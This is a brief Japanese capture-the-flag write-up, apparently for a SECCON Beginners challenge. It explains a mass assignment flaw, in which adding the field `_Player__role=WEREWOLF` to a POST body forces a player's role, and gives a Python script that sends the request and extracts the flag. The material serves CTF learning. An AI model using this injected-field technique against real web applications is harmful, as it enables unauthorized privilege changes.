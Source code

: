 Mass assignment があるので、`_Player__role=WEREWOLF` をリクエストボディに追加して POST すれば `Player.role` を無理やり `WEREWOLF` に出来る。

```python
import os
import time

import requests
from bs4 import BeautifulSoup


def main():
    response = requests.post(
        f"http://{os.getenv('CTF4B_HOST')}:{os.getenv('CTF4B_PORT')}/", 
        {
            "name": "ctf4b",
            "color": "red",
            "_Player__role": "WEREWOLF"
        }
    )
    soup = BeautifulSoup(response.text, "html.parser")
    print(f"[*] FLAG: {soup.select('#flag')[0].text}")


if __name__ == '__main__':
    main()
```